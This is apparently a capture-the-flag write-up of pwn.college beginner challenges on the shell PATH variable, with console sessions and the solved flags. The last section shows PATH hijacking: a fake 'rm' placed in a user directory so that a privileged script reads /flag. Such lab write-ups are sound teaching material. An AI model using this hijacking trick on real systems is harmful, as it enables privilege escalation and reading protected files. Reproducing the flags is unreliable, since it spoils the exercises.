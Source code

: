 # Pondering PATH

## The PATH Variable

### In this challenge we learnt about the PATH variable that has the paths to various commands, without the PATH variable, shell won't be able to execute commands like ls, rm etc.

Approach: /challenge/run deletes the flag using the rm command, by blanking out the PATH variable, the /challenge/run command can't access the rm command anymore since it doesn't have the path to it, and thus it gives us the flag

```console
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{korYF6mO9MSWez0XSHlg2UFlqwo.dZzNwUDL1ATN0czW}
```

## Setting PATH

### In this challenge we learnt how to set the PATH variable

Approach: /challenge/run uses a command called win which is in the directory /challenge/more_commands, setting the PATH variable to that directory ensures the shell can find the path of win command

```console
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{UrRh78mOv4QiWLr3I8YEhxF2MZM.dVzNyUDL1ATN0czW}
```

## Adding Commands

### In this challenge we learnt how to add our own commands to the PATH variable

Approach: 

* Make a shell executable called win which invokes the command "cat /flag"
* Add the path of that executable to the PATH variable
* Run /challenge/run

```console
hacker@path~adding-commands:~$ echo "cat /flag" > win
hacker@path~adding-commands:~$ chmod u+x win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ PATH=/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/hacker
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{MZnCgWbo8_OA3XPbjuitkiiLDV9.dZzNyUDL1ATN0czW}
```

## Hijacking Commands

### Approach:

* The /challenge/run command invokes rm to delete the flag
* Create a new executable called rm in /home/hacker, this executable will contain commands to show us the flag
* Set PATH variable as /home/hacker
* Now when the /challenge/run command tries to invoke rm, it'll run our executable instead

```console
hacker@path~hijacking-commands:~$ printf "read var < /flag\necho \$var" > rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{4jWi2IsD6GEbvaR8z8TTp4rRq0O.ddzNyUDL1ATN0czW}
```